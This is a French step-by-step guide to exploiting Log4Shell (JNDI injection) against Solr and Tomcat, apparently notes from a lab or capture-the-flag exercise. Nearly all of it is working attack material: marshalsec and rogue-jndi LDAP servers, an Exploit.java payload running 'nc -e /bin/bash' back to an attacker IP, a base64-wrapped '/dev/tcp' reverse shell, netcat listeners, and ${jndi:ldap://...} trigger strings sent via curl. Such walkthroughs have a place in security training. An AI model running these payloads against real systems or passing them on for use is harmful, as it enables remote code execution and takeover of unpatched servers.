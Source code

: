## Exploitation 1

```sh
sudo apt install maven -y
git clone  https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
```

1. Démarrer un serveur de référence LDAP 

```sh
./jdk1.8.0_181/bin/java -cp marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER.IP.ADDRESS:8000/#Exploit"
```

2. Créez et déplacez-vous vers un nouveau répertoire dans lequel vous pouvez héberger cette charge utile avec le  nom spécifique `Exploit.java`

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9001");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

3. Compilez votre charge utile :

```sh
./jdk1.8.0_181/bin/javac Exploit.java
#./jdk1.8.0_181/bin/javac Exploit.java -source 8 -target 8
```

4. Une fois votre charge utile créée et compilée, vDémarrer un serveur HTTP secondaire

```sh
python3 -m http.server 8000
```

5. Dematrrer un ecouteur

```sh
nc -nlvp 9001
```

5. Déclencher l'exploit et lancer notre syntaxe JNDI 

```sh
curl 'http://10.10.54.189:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER.IP.ADDRESS:1389/Exploit\}'
```


## Exploitation 2

```sh
git clone https://github.com/veracode-research/rogue-jndi 
cd rogue-jndi 
mvn package
```

1. Generer un payloads pour obtenir une RCE:

```sh
echo 'bash -c bash -i >&/dev/tcp/10.10.14.150/9001 0>&1' | base64
```

2. Demarrer un serveur LDAP malveillant pour les attaques par injection JNDI. 

```sh
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64_STRING_HERE}|
{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

Prendre celui du serveur `tomcat`

3. Demarrer un ecouteur 

```sh
rlwrap nc  -nlvp 9001
```

4. Envoyer le payload du serveur tomcat dans le champ vulnerable

```
${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}
```